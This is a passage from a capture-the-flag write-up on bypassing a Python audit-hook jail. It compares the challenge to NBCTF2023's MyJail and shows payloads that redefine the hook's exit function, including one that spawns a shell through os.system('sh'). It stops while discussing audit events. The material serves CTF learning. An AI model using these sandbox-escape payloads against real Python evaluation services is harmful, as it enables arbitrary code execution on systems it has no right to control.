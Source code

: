 The calculator thingy can be bypassed easily by just using a number at the start of our payload. We will see later, don't worry
<br>
### Solving process
It's not a first time audit hooks appear in CTFs. Tho there is a critical difference here. Let's simplify the jail further to compare it to **MyJail** from *NBCTF2023* (archived challenge can be found [here](https://github.com/salvatore-abello/pyjail/blob/main/NBCTF%202023/MyJail.py)) :
```python
from sys import addaudithook

def hook(*a): exit(0)
def dummy() : pass

expr = input("Math expression: ")
dummy.__code__ = compile(expr, "<code>", "eval")

addaudithook(hook)

print(dummy())
```

If we try to bypass this jail it's pretty easy. We can't circumvent the audit rules but **we can modify the sentence** 😈🔨👩‍⚖️ We just have to modify the ``hook`` function

```python
(exit:=lambda x:x), <full control>

# Examples
(exit:=lambda x:x),print("hacked >:)")
(exit:=lambda x:x),exec("import os;os.system('sh')")
```

Easy to do right ? But here is the challenge introduced by the challmaker. *We can't access the local variable ``exit`` and modify it !*

```python
def safe_eval(exit, code): # we are here at runtime and can do everything ...
    def hook(*a):
        exit(0)            # ... but here exit is added to hook at compile time
                           # so we can't modify it from the outside
    def dummy():
        pass
```

What can we do ?
- explore audithook's internals and "modify" ``hook`` ?
- explore Python's memory and "modify" ``hook`` ?
- access ``hook`` from "inside" instead of outside 👀
<br>
### Bypassing ``hook`` from the inside
Audithooks trigger at [certain events](https://docs.python.org/3/library/audit_events.html#audit-events). If we look at the ``import`` event it says
> `module`, `filename`, `sys.path`, `sys.meta_path`, `sys.path_hooks`
